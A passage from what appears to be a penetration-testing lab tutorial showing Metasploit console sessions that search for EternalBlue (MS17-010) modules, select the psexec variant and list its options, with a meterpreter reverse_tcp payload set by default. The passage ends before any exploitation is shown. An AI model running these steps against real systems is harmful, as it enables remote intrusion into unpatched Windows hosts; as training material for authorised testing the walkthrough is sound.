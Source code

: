 Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

3. Select Exploit & Payload, then Deliver

#### Choose & Configure Our Exploit & Payload

  Infiltrating Windows

```shell-session
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

For this instance, we dug through MSF's exploit modules utilizing the search function to look for an exploit matching EternalBlue. The list above was the result. Since I have had more luck with the `psexec` version of this exploit, we will try that one first. Let's choose it and continue the setup.

#### Configure The Exploit & Payload

  Infiltrating Windows

```shell-session
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
```